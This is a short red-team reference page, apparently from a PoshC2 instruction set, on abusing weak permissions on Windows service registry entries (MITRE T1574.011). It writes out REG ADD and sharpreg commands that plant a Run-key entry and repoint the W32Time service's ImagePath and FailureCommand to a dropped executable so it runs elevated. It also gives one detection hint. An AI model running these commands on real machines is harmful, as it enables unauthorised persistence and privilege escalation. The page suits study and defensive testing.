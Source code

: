 # [Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)

## Exploit Description:
Hijack registry entries used by services by using flaws in permissions.  
HKLM\SYSTEM\CurrentControlSet\Services
REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run /v “Canon Gear” /t REG_SZ /d C:\Users\Administrator.vcch\Appdata\Local\.exe
(Substitute registry path locations with what is needed) 


## Exploit syntax:
* Reference [Modify registry](/Poshc2/instructions/Modify_registry.md) for syntax. 

* Example of altering the "FailureCommand" key so that the service is executed in an elevated context anytime the service fails or is intentionally corrupted

```powershell
# First run this command to stage the service
sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\W32Time" "ImagePath" "C:\tmp\RUNDLL.exe" REG_SZ

sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\W32Time" "FailureCommand" "C:\tmp\RUNDLL.exe"  REG_SZ

```
>**Note**: The original image path is " ImagePath	(ExpandString) -> 	C:\windows\system32\svchost.exe -k LocalService"
## Detection Technique:
* Investigating Run and Startup registry keys.


## Resources
* https://pentestlab.blog/tag/failurecommand/